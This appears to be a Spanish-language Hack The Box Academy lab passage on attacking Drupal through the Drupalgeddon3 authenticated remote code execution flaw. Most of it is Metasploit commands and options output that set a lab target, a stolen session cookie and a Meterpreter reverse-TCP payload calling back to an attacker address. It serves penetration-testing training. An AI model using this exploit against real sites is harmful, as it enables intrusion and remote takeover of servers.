 
# **Drupalgeddon3**

[Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3)es una vulnerabilidad de ejecución de código remoto autenticado que afecta[múltiples versiones](https://www.drupal.org/sa-core-2018-004)de núcleo drupal. Requiere que un usuario tenga la capacidad de eliminar un nodo. Podemos explotar esto usando Metasploit, pero primero debemos iniciar sesión y obtener una cookie de sesión válida.

![](https://academy.hackthebox.com/storage/modules/113/burp.png)

Una vez que tenemos la cookie de la sesión, podemos configurar el módulo de exploit de la siguiente manera.

Atacando a Drupal

```
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options

Module options (exploit/multi/http/drupal_drupageddon3):

   Name            Current Setting                                                                   Required  Description
   ----            ---------------                                                                   --------  -----------
   DRUPAL_NODE     1                                                                                 yes       Exist Node Number (Page, Article, Forum topic, or a Post)
   DRUPAL_SESSION  SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  yes       Authenticated Cookie Session
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.42.195                                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80                                                                                yes       The target port (TCP)
   SSL             false                                                                             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                                                                                 yes       The target URI of the Drupal installation
   VHOST           drupal-acc.inlanefreight.local                                                    no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   User register form with exec

```
